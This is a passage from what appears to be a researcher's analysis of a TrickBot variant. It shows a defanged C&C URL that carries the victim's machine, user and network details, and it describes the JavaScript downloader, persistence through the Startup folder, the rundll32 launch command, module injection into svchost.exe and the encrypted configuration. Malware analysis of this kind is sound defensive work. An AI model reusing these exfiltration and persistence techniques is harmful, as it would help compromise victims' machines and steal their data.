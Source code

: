 
hxxps[:]//45[.]138[.]72[.]155/1/1.php?h=m25&j=8b1e7a89&l=Mytest01-PC@@Mytest01-PC@@Mytest01@@*147[.]2[.]3[.]15%3A%3A%5B00000007%5D%20Intel%28R%29%20PRO/1000%20MT%20Desktop%20Adapter&12455532


The parameter portion contains the victim’s computer name, login username, IP address, and network card information. The server then replies to this request with a base64 encoded PE file.  Figure 3 shows the received base64 encoded PE file content.






Figure 3. HTTPS request and response with base64 encoded content


The JavaScript code saves this file into the system’s %temp% folder, and it also copies the current JavaScript file into the system’s %temp% folder as well. Later, it runs the copied JavaScript file from the %temp% folder and exits the current one.
This time, it checks to see if it runs from the %temp% folder. If yes, it reads the downloaded file and puts its base64-decoded content into a file under the %temp% folder, which is “8a1e7a8988168816.com” in my test computer. This file is the payload of this variant of TrickBot, which will be started in the JavaScript. I’ll elaborate on this in the next section.
Meanwhile, it copies the JavaScript file into the Windows startup folder so it can start whenever Windows OS starts. In previous versions, it used to install itself as a Scheduled Task or be added into the system registry’s Auto-Run group to maintain persistence.  
In Figure 4, you will find it using the Windows Start Menu.






Figure 4. JavaScript file has been added into Startup in Start Menu


Starting Payload of TrickBot
The downloaded payload file “8a1e7a8988168816.com” is a DLL file that is executed in rundll32.exe, which is a Windows-default program used to run a DLL file as a program, using the command line "C:\Windows\System32\rundll32.exe C:\Users\{user name}\AppData\Local\Temp\8a1e7a8988168816.com InitLibrary".
As I mentioned above, as well in my previous analysis, TrickBot is a modular Trojan. It is able to download modules (DLL files) from its C&C server, load them into the newly-created process “svchost.exe,” then execute one module in the “svchost.exe” process.
TrickBot communicates with these modules (svchost.exe) through a named pipe and shared memory by calling API functions like ReadProcessMemory(), WriteProcessMemory() and so on. Once it starts a module in a svchost.exe, it then starts a corresponding thread function to continue communicating with the module.
Researchers have found that it has delivered the following modules in the past: systeminfo, injectDll, pwgrab, importDll, mshareDll, mwormDll, tabDll, vncDll, and so on. I even did some analysis on some of them. From the module name you can often guess what the module’s purpose is. I will next explain what the internal code structure of TrickBot is and how it downloads those modules.
When “8a1e7a8988168816.com” starts in rundll32.exe, its entry function DllMain() is called, which then decrypts and extracts another executable module (EXE file) into its memory. It then dynamically adjusts some section data, such as import table and relocation data. After everything is ready, its entry point function is called. And from then on, all TrickBot tasks are performed by the extracted module.
The first time it runs, it creates a home folder named “DirectTools” under the %AppData% folder for saving its configuration settings, future downloaded module files, as well as module configuration files. 
The configuration file of TrickBot is a randomly-chosen-file-name file saved in its home directory. The content is encrypted and obfuscated. It contains a group tag (“red4” for this variant), client_id (generated with the victim’s computer name), as well as the TrickBot version, its C&C server IP address, and Port list information. Figure 5 shows what this saved configuration file looks like. This time, the file name is “revocations.txt”, the red rectangles identify two encrypted data sets, and the other readable texts are trash data.
